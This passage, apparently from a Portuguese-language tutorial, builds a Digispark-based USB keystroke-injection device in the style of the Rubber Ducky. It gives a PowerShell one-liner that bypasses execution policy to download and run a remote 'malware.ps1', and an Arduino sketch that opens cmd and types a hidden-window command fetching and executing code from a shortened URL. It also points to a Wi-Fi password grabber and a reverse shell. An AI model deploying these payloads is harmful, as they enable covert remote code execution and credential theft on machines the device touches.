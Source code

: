 ``` c
    usbPoll();
    _delay_ms(5); // aqui
  }
}
```

### Criando um custom (USB rubberducky )

Como eu já tinha citado sobre o nosso pequeno problema, es que temos apenas **8K de memória flash** e se quisermos usar um payload, por exemplo, do [WiFi-password-grabber](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---WiFi-password-grabber) que é capaz de coletar todos os passwords wireless salvo e enviar para um determinado email, mesmo sendo possível converter todo código do USB-Rubber-Ducky, estamos limitado por falta de memoria que certamente ir faltar. Porém, podemos usar o **powershell** como vetor de ataque, iremos apenas fazer com que nosso dispositivo abrir o prompt de comando (**cmd**) e posteriomente chamar o powershell passando como parêmentro request em algum código (raw) hospeado na net ou no meu caso usar minha shell para abrir uma conexão reversa com a máquina alvo.

Por exemplo, podemos usar esse método para executar remotamente qualquer código na maquina usando script em powershell.
``` powershell
powershell.exe -ep Bypass -nop -noexit -c iex ((New ObjectNet.WebClient).DownloadString(‘https://[website]/malware.ps1′))
```
Ou simplemente mudar a proteção de tela de uma maquina usando esse [script.ps1](https://gist.githubusercontent.com/mh4x0f/fe54a1b4d06b3dc95b3c12e03014d9f4/raw/ebbfeabea4f1f7c06a9c40ca768fef7476711af3/mlp.ps), OBS: código funciona apenas em windows 7 e 8 :

O nosso código irá ficar mais o menos assim:
``` c
#include "DigiKeyboard.h"

void setup() {
  // don't need to set anything up to use DigiKeyboard
}


void loop() {
  // this is generally not necessary but with some older systems it seems to
  // prevent missing the first character after a delay:
  DigiKeyboard.sendKeyStroke(0);

  DigiKeyboard.delay(5000);
  // abre o menu iniciar do widnows
  DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT);

  DigiKeyboard.delay(1000);
  DigiKeyboard.print("cmd"); // digita no campo de pesquisa
  DigiKeyboard.delay(1000);

  DigiKeyboard.sendKeyStroke(KEY_ENTER); // abre o prompt de comando
  DigiKeyboard.delay(1000);
  // Type out this string letter by letter on the computer (assumes US-style
  // keyboard)
  DigiKeyboard.println("powershell -windowstyle hidden iex (wget http://bit.ly/2f1uwGD)");
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  // It's better to use DigiKeyboard.delay() over the regular Arduino delay()
  // if doing keyboard stuff because it keeps talking to the computer to make
  // sure the computer knows the keyboard is alive and connected
  DigiKeyboard.delay(5000);
}

```
